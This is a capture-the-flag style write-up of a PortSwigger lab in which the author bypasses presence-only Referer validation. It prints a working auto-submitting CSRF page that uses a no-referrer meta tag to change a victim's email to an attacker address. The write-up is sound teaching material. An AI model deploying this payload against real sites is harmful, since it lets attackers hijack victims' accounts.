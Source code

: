 # CSRF where Referer validation depends on header being present | Dec 15, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present), you'll learn: CSRF where Referer validation depends on header being present! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215045943.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215050007.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215050014.png)

In the previous labs, we found that the email change functionality is vulnerable to CSRF.

**Let's inspect the HTML form in the update email:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```

**In here, we didn't see a CSRF token!**

**Now, we use the `exploit server` to test CSRF attack!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215050513.png)

**Then, we can craft a HTML form that performs CSRF attack to the victim:**
```html
<html>
    <head>
        <title>CSRF-11</title>
    </head>
    <body>
        <form action="https://0a79002404e56adfc0b5a6f6004f008e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Let's test it via the `View exploit` button!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215050745.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215050759.png)

Wait... `Invalid referer header`??

**Hmm... Since the `Referer` HTTP header can be fully controlled by the attacker, we can basically bypass this check!**

**According to [Mozilla web docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy), we can use the `<meta>` tag to ignore `Referer` HTTP header:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215051342.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215051352.png)

**To bypass that, I'll add a new `<meta>` tag to ignore `Referer` header:**
```html
<html>
    <head>
	    <meta name="referrer" content="no-referrer">
        <title>CSRF-11</title>
    </head>
    <body>
        <form action="https://0a79002404e56adfc0b5a6f6004f008e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Finally, we can send this exploit to the victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215051517.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215051523.png)

We successfully changed a victim email address!

# What we've learned:

1. CSRF where Referer validation depends on header being present